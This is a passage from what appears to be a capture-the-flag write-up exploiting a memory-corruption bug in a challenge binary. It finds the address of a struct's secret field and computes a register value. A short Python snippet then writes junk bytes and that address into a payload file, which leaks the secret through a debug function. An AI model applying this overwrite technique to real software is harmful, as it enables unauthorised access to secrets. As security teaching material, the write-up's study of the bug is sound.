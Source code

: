 Finding memory positions
----------------------------------
Now we have to work out where the `hey` struct is stored in memory and then we can point to the session address.  
![](https://image.ibb.co/nMbkWm/18.png)

They hey struct is stored at `0x80003068` and the struct itself looks like this.

```c
  struct f {
    char user[USIZE];
    //int user;
    int secret;
    int admin;
    int session;
  }
hey;
```
We need hey.secret and protect to be equal and hey.admin to be 0.
```c
attempt_login(hey.admin, protect, hey.secret);
```
So, at our breakpoint, lets examine the memory and see what's in the `hey` struct.
![](https://image.ibb.co/hfK5Wm/19.png)

 Our secret variable exists at &hey+12 by looking at the memory above and also that the element of the struct is of size `USIZE`, or 12 bytes.  In effect this means our `hey.secret` variable at any one point will exist at the memory location `0x80003074` (which is `0x80003068+12`).

In order to patch `eax` entering the `printdeb` function, we have to make sure it matches the above memory address.  So in order to do this, we have to solve the equation:
```
0x80003074 = ebx+0x68+0x14
ebx =  0x80003074-0x68-0x14
ebx = 0x80002FF8
```
We therefore write in a file of the with 8 junk data, followed by the value of `ebx` in little endian form.  The code to do this is: 
```python
with open('patchfile', 'wb') as tfile:
         tfile.write(b'ABCDEFGH')
         tfile.write(b'\xf8\x2f\x00\x80') #0x80002ff8
```
So we pass this into `createusername` and then run the `printdeb` function.
![](https://image.ibb.co/e5DXBm/20.png)

We've now leaked the `hey.secret` variable.  

Correcting The Memory Corruption
-----------------------------------------

So now we'll return to the disassembly of `attempt_login` to ensure we are patching correctly before we call login.
